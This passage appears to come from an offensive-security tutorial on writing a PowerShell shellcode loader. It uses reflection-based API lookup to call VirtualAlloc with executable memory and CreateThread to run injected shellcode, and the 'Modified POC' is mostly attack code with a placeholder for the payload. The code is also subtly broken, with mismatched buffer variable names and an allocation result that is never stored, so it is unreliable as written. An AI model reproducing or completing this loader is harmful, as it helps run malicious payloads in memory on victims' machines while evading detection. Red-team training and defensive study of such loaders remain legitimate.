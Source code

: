 ```
$MessageBoxAddr = LookupFunc user32.dll MessageBox
$MessageBoxDelType = getDelegateType @([IntPtr], [String], [String], [int])
([IntPtr])$MessageBox = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxAddr, $MessageBoxDelType)
$MessageBox.Invoke([IntPtr]::Zero,"Hello World!","HELLO",0)
```

Modifying the Script to execute Shellcode
---

The POC can now be modified to call VirtualAlloc and CreateThread to run shellcode. For this to be done, the lookupFunc will be used to find the address for both our target functions in kernel32.dll. Finally, the arguments sent to getDelegateType should reflect the data types of our target functions. See below. 

---
CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
VirutalAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

---
Modified POC
---

```
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), 
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $shellc_buff = <SHELLCODE>

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $shelc_buff.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), 
(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
```
---
Completing the Shellcode Loader
---
The final piece of the shellcode loader consists of locating and calling the WaitForSingleObject API from kernel32.dll. Calling this function with the appropriate arguments will ensure that the shell will not instanteniously terminate and only stop when the shell is terminated by the operator. This part is left as an exercise.

---